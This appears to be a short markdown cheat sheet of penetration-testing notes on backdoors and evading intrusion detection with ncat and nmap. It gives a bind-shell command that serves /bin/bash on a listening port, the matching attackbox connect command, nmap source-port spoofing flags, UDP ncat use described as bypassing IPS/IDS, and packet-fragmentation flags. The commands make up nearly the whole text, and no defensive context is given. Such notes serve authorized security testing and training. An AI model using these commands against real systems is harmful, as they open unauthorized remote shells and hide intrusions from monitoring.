 ## Using Backdooring with non-standard ports
Create a backdoor via specified port 
Server Backdoor:
```bash
ncat -lvnp $LISTENER -e /bin/bash
```
On attackbox:
```bash
ncat $IP $PORT
```

## Manipulate Source TCP/UDP port
```lua
(-sS | -sT | -sU) -g $PORT
```
 ncat bypass IPS/IDS with just the right connection port or protocol
```bash
ncat -u $IP $PORT
ncat -ulvnp $PORT
```
Session splicing
```bash
-f 
-ff
-mtu
```
